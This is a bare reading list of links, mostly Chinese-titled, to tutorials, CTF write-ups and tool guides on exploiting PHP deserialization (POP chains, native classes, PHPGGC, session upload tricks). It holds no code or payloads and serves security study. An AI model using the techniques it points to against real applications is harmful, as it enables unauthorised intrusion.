- [PHP反序列化由浅入深](https://xz.aliyun.com/t/3674)
- [借安恒月赛web pop对象注入+反序列化字符逃逸深究其逃逸原理](https://www.cnblogs.com/Wanghaoran-s1mple/p/13160708.html)
- [POP链学习](http://redteam.today/2017/10/01/POP%E9%93%BE%E5%AD%A6%E4%B9%A0/)
- [从LCTF WEB签到题看PHP反序列化](https://xz.aliyun.com/t/3336#toc-2)
- [LCTF2018-bestphp’s revenge 详细题解](https://www.smi1e.top/lctf2018-bestphps-revenge-%E8%AF%A6%E7%BB%86%E9%A2%98%E8%A7%A3/)
- [反序列化之PHP原生类的利用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html)
- [LCTF 2018 Writeup -- Nu1L](https://xz.aliyun.com/t/3341#toc-13)
- [php反序列化由浅到深](https://xi4or0uji.github.io/2019/06/27/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%94%B1%E6%B5%85%E5%88%B0%E6%B7%B1/#%E5%8E%9F%E7%94%9F%E7%B1%BB%E5%BA%8F%E5%88%97%E5%8C%96%E9%97%AE%E9%A2%98)
- [php反序列化原生类利用](https://0day.design/2019/03/05/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8E%9F%E7%94%9F%E7%B1%BB%E5%88%A9%E7%94%A8/)
- [PHP SECURITY CALENDAR 2017 学习总结-更新中](https://www.cnblogs.com/tr1ple/p/10188308.html)
- [PHP-Audit-Labs — Day3 反序列化](https://medium.com/@Wh0ale/php-audit-labs-day3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-27834dcc3558)
- [(转)详解spl_autoload_register()函数](https://segmentfault.com/a/1190000009742195)
- [从两道CTF题目学习PHP原生类反序列化利用](https://ca0y1h.top/Web_security/php_related/5.PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0-%E5%8E%9F%E7%94%9F%E7%B1%BB%E5%88%A9%E7%94%A8/)
- [从0到1掌握反序列化工具之PHPGGC](https://xz.aliyun.com/t/5450)
- [Web安全学习笔记](http://127.0.0.1/html/index.html)
- [从CTF中学习PHP反序列化的各种利用方式](https://xz.aliyun.com/t/7570#toc-5)
- [怎样挖掘出属于自己的php反序列化链](https://xz.aliyun.com/t/8082#toc-13)
- [实战工具：PHPGGC详解](http://vlambda.com/wz_1cLwVzfPSC.html)
- [从反序列化到类型混淆漏洞——记一次 ecshop 实例利用](https://paper.seebug.org/1267/)
- [DDCTF 2020](https://www.cnblogs.com/20175211lyz/p/13633840.html)
- [利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)


